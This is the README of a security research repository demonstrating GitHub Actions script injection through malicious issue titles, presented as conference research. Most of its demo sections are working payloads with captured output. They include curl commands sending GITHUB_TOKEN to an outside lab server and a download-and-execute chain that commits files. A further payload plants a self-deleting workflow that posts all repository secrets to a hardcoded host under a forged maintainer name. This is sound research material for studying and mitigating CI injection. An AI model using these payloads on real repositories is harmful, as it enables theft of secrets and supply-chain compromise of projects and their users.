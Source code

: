 # Github Actions Injection Vulnerability Demo

This repository contains several utility scripts and Github Actions we used in our research for [Github Actions injection vulnerabilities](https://cycode.com/blog/github-actions-vulnerabilities/).
We presented this talk on several occasions:
- SupplyChainSecurityCon 2022 (part of OpenSourceSummit NA) - [Github Actions Security Landscape](https://www.youtube.com/watch?v=dTrHKa9mbdQ)
- DevSecCon24 - [Github Actions Security Landscape](https://www.youtube.com/watch?v=zr4nka52Fk0)

## Article Outline

Our research blog describes how we found several popular open source projects vulnerable to [script injection attack](https://docs.github.com/en/actions/security-guides/security-hardening-for-github-actions#good-practices-for-mitigating-script-injection-attacks) through user-controlled input, such as Github issue title and body.
We deeply investigated this threat and tried to understand the implications of such a build compromise. We quickly understood that the consequences could be pretty disastrous:
- The attacker can exfiltrate sensitive tokens from the build service (such as AWS tokens, docker hub, etc.)
- The attacker can commit new code to the repository and cause a potential supply-chain attack on the product's users.

We also show how to mitigate such attacks and their consequences.

## Demos

As explained in the article, the demos show the possible implications of a malicious attacker that gained control over the build process.
The vulnerable workflow we'll use through the demos is [vuln](.github/workflows/vuln.yml), which will be triggered whenever a new issue is created.

### Demo 1 - Exfiltrating sensitive secrets

First, you must set up a server to listen to the exfiltrated secrets in a lab environment. You can use our https://github.com/CycodeLabs/simple-http-logger for that.

Then, change the the URL parameter with your lab server URL, and create an issue with the following title:

```bash
Innocent bug" && curl -d “token=$GITHUB_TOKEN” http://lab.cycode.com:64375 && sudo docker run --rm -d -v /home/runner/work/_temp:/app/monitored cycodelabs/actionmonitor -u http://lab.cycode.com:64375 && sleep 2 && echo "
```

This payload consists of two commands:

```bash
# Exfiltrating GITHUB_TOKEN
curl -d “token=$GITHUB_TOKEN” <LAB_URL>

# Exfiltrating BOT_TOKEN through the script that comes after
sudo docker run --rm -d -v /home/runner/work/_temp:/app/monitored cycodelabs/actionmonitor -u <LAB_URL>
```

This script uses another tool we developed - [gh-action-shell-monitor](https://github.com/CycodeLabs/gh-action-shell-monitor). This tool listens for any shell files modified in the specified directory and sends them to a designated server.
The result would be receiving the complete script on our lab server, together with the embedded `BOT_TOKEN`.

**Demo 1 Result**

We will see the exfiltrated secrets on our lab server:

```bash
Host: lab.cycode.com:64375
User-Agent: curl/7.68.0
Accept: */*
Content-Length: 52
Content-Type: application/x-www-form-urlencoded

“token=ghs_REDACTED”

20.225.222.12 - - [31/Jul/2022 14:19:34] "POST / HTTP/1.1" 200 -

Host: lab.cycode.com:64375
User-Agent: python-requests/2.28.1
Accept-Encoding: gzip, deflate
Accept: */*
Connection: keep-alive
Content-Length: 359
Content-Type: multipart/form-data; boundary=bf5bd2ffa2c3ab565217ec5f0b86aca2

--bf5bd2ffa2c3ab565217ec5f0b86aca2
Content-Disposition: form-data; name="upload_file"; filename="0dc9e55d-40eb-4c83-aa1c-d2ccfc4e04e9.sh"

curl -X POST -H "Authorization: Token this_is_a_very_secret_token" -d '{"labels": ["New Issue"]}' https://api.github.com/repos/CycodeLabs/gh-injection-vuln-demo/issues/20/labels
--bf5bd2ffa2c3ab565217ec5f0b86aca2--


20.225.222.12 - - [31/Jul/2022 14:19:41] "POST / HTTP/1.1" 200 -
```

### Demo 2 - Committing to the repository

We can use simple git commands and commit a "malicious" file into the repository during the build process.

The issue title for the demo:

```bash
Innocent bug" && curl -o /tmp/script.sh https://raw.githubusercontent.com/CycodeLabs/gh-injection-vuln-demo/main/scripts/commit_file.sh && chmod +x /tmp/script.sh && /tmp/script.sh https://raw.githubusercontent.com/CycodeLabs/gh-injection-vuln-demo/main/files/file_to_commit innocent_file && echo "
```

This payload consists of the following commands:

```bash
# Fetching the commit script
curl -o /tmp/script.sh https://raw.githubusercontent.com/CycodeLabs/gh-injection-vuln-demo/main/scripts/commit_file.sh

# Giving it proper permissions
chmod +x /tmp/script.sh

# Running it together with our "malicious" file
/tmp/script.sh https://raw.githubusercontent.com/CycodeLabs/gh-injection-vuln-demo/main/files/file_to_commit innocent_file
```

**Demo 2 Result**

We will see additional file committed to the repository during the build phase:

![committed_file](pics/commited_file.png)

### Demo 3 - Exfiltrating repository and organization secrets

In this demo, we used the commit capability to get the repository/organization secrets that weren't necessarily defined in that specific workflow but were defined for that repository.

First, we need to set up the server just like in the first demo.

The issue title for the demo:

```bash
# Send as issue body because issue title is capped with a character limit
" && WORKFLOW_CONTENT=$(curl -s https://raw.githubusercontent.com/CycodeLabs/gh-injection-vuln-demo/main/actions/expose_secrets.yml | base64 -w 0) && curl -X PUT -H "Authorization: Token $GITHUB_TOKEN" https://api.github.com/repos/$GITHUB_REPOSITORY/contents/.github/workflows/innocent_workflow.yml -d '{"message":"innocent commit message","committer":{"name":"Maintainer Name","email":"maintainer@gmail.com"},"content":"'"$WORKFLOW_CONTENT"'"}' && echo "
```

This payload consists of the following command:

```bash
# Fetching the workflow from our repository
WORKFLOW_CONTENT=$(curl -s https://raw.githubusercontent.com/CycodeLabs/gh-injection-vuln-demo/main/actions/expose_secrets.yml | base64 -w 0)

# Committing it to the current repository
curl -X PUT -H "Authorization: Token $GITHUB_TOKEN" https://api.github.com/repos/$GITHUB_REPOSITORY/contents/.github/workflows/innocent_workflow.yml -d '{"message":"innocent commit message","committer":{"name":"Maintainer Name","email":"maintainer@gmail.com"},"content":"'"$WORKFLOW_CONTENT"'"}'
```

So, our payload first fetches our pre-created custom workflow [actions/expose_secrets.yml](actions/expose_secrets.yml), and commits it to the current repository:

```yaml
name: Exposing ALL Secrets

on:
  workflow_run:
    workflows: ["Vuln"]

env:
  WORKFLOW_NAME: "innocent_workflow.yml"
  MAINTAINER_NAME: "Maintainer Name"
  MAINTAINER_EMAIL: "maintainer@gmail.com"
  COMMIT_MESSAGE: "innocent commit message"
  URL: http://lab.cycode.com:64375

jobs:
  expose_secrets:
    runs-on: ubuntu-latest

    steps:
      - run: |
          echo "${{ toJSON(secrets) }}" > .secrets
          curl -X POST --data "@.secrets" $URL
      - run: |
          SHA=$(curl -X GET -H "Authorization: Token ${{ github.token }}" https://api.github.com/repos/$GITHUB_REPOSITORY/contents/.github/workflows/$WORKFLOW_NAME -s | jq -r .sha)
          curl -X DELETE -H "Authorization: Token ${{ github.token }}" https://api.github.com/repos/$GITHUB_REPOSITORY/contents/.github/workflows/$WORKFLOW_NAME -d '{"message":"$COMMIT_MESSAGE","committer":{"name":"$MAINTAINER_NAME","email":"$MAINTAINER_EMAIL"}, "sha":"'"${SHA}"'"}' 
```

So the procedure of the demo is the following:

- We inject our malicious payload into the `Vuln` workflow.
- The `Vuln` workflow invokes Github API to commit a new workflow, the `Exposing ALL Secrets` workflow.
- The `Vuln` workflow ends.
- Because of `workflow_run:`, the Github Actions service will trigger `Exposing ALL Secrets` when `Vuln` ends.
- `Exposing ALL Secrets` workflow sends all secrets to a hardcoded server.
- `Exposing ALL Secrets` workflow deletes itself.

**Demo 3 Result**

We will see the exfiltrated repository and organization secrets defined for that repository:

```bash
Host: lab.cycode.com:64375
User-Agent: curl/7.68.0
Accept: */*
Content-Length: 159
Content-Type: application/x-www-form-urlencoded

{  SECRET1: secret_token_num_1,  SECRET2: secret_token_num_2,  BOT_TOKEN: this_is_a_very_secret_token,  github_token: ghs_REDACTED}

20.232.17.210 - - [31/Jul/2022 13:23:08] "POST / HTTP/1.1" 200 -
```